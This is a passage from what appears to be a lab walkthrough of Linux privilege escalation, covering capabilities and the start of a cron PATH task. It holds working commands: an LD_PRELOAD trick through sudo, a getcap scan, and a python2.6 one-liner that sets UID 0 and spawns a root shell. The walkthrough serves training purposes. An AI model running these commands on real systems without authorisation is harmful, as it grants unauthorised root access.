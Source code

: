 ~~~
sudo LD_PRELOAD=/tmp/x.so apache2
~~~


## Task 15 → Privilege Escalation - Capabilities

Check what capabilities are assigned to the files in the system.

~~~
getcap -r / 2>/dev/null
~~~
![cap](/img/2020-07-27-LinuxPrivEsc/cap.png)

We see that the file '/usr/bin/python2.6' has the capability 'cap_setuid+ep. You can learn more it in this [link](https://man7.org/linux/man-pages/man3/cap_setuid.3.html).

Let's abuse it, by spawning a shell using the python2.6 binary.

~~~
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
~~~

## Task 16 → Privilege Escalation - Cron (Path)
Let's have a look at the crontab file. This file contains jobs/scripts that will be executed in a certain schedule.

~~~
cat /etc/crontab
~~~

![cron](/img/2020-07-27-LinuxPrivEsc/cron.png)
